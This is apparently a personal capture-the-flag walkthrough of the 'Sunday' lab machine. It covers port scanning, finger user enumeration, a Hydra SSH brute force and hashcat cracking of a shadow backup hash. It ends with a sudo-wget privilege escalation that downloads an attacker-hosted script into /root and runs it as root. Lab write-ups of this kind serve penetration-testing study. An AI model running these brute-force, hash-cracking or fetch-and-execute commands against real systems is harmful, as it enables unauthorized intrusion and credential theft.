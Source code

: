 # Summary



## about target

tip:  10.129.29.44

hostname: Sunday

Difficulty: Easy, not that easy.



## about attack

+ finger enum， users； hashcat crack linux pwd
+ wget sudo  privesc





**attack note**

```bash
Sunday / 10.129.29.44

PORT      STATE SERVICE VERSION
79/tcp    open  finger?
| fingerprint-strings:
|   GenericLines:
|     No one logged on
|   GetRequest:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help:
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest:
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq:
|_    Login Name TTY Idle When Where
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
22022/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey:
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
|_  256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)

-enum

--port 79

finger root@$tip

finger admin@$tip

perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t $tip

--rpcbind 111   no found.
sudo nmap -sSUC -p 111 -oN rpc.nmap $tip

rpcinfo -p $tip
rpcinfo $tip
rpcclient -U '' $tip 

--oracle solaris 6787


```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
79/tcp    open  finger?
| fingerprint-strings:
|   GenericLines:
|     No one logged on
|   GetRequest:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help:
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest:
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq:
|_    Login Name TTY Idle When Where
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
22022/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey:
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
|_  256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)
```



## finger enum

user enum. 

https://pentestmonkey.net/tools/user-enumeration/finger-user-enum

```bash
finger root@$tip

finger admin@$tip

perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t $tip
```



![image-20221016165913183](./images/image-20221016165913183.png)

user sammy, sunny.

![image-20221016212656112](./images/image-20221016212656112.png)

# Exploit

## ssh brute

```bash
hydra -l sunny -P /usr/share/seclists/Passwords/probable-v2-top1575.txt ssh://$tip:22022

```

![image-20221016212607105](./images/image-20221016212607105.png)

ssh login ,got shell.

```bash
ssh -p 22022 sunny@$tip

```



# Privesc



## local enum

linpeas, nothing.

linenum, nothing.

Sudo list and the history.

```bash
sudo -l 

cat .bash_history
```

![image-20221016212756348](./images/image-20221016212756348.png)

/backup/shadow.backup, found password hash.

```bash
cat /backup/shadow.backup
```

![image-20221016212903401](./images/image-20221016212903401.png)



crack . 

check the hash format here, 

![image-20221016213009448](./images/image-20221016213009448.png)



search $5$

![image-20221016213128514](./images/image-20221016213128514.png)

hashcat crack. 

```bash
hashcat -m 7400 sammy.hash /usr/share/wordlists/rockyou.txt
hashcat -m 7400 sammy.hash --show
```

![image-20221016213155270](./images/image-20221016213155270.png)

Sammy,  sudo wget

```bash
sudo -l
```

![image-20221016213307543](./images/image-20221016213307543.png)





## System

Sammy  wget  file to troll.

```bash
!#/usr/bin/bash

bash
```

![image-20221016231751733](./images/image-20221016231751733.png)

```bash
# sammy
sudo wget http://10.10.14.78/troll -O /root/troll

# sunny
sudo /root/troll
```

failed, seems the file downloaded and recoveried imediately.

from ipsec walkthrough.

```bash
sleep 5; sudo wget http://10.10.14.78/troll -O /root/troll

# as soon as the wget execute, execute on sunny
sudo /root/troll
```



![image-20221016212227916](./images/image-20221016212227916.png)

check the /root, overwrite the troll every 5 seconds.

![image-20221016232408996](./images/image-20221016232408996.png)



another way,  overwrite the passwd file, add user.





## proof

```bash


```



